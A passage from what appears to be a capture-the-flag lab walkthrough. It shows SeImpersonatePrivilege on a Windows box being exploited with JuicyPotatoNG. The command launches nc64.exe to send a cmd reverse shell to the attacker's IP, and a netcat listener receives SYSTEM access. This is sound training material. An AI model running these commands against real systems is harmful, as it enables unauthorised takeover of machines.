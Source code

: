 Running `whoami /all` we see the SEImpersonatePrivilege is set:

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Lets use Juicy-PotatoNG to exploit this:

```
C:\temp>juicypotatong.exe -t * -p "C:\Windows\system32\cmd.exe" -a "/c C:\temp\nc64.exe 10.10.14.60 445 -e cmd"
```

For a shell back as NT System:

```
┌──(ryan㉿kali)-[~/Tools/privesc]
└─$ nc -lnvp 445
listening on [any] 445 ...
connect to [10.10.14.60] from (UNKNOWN) [10.10.11.187] 51049
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>whoami
whoami
nt authority\system
```

And we can now grab the final flag:
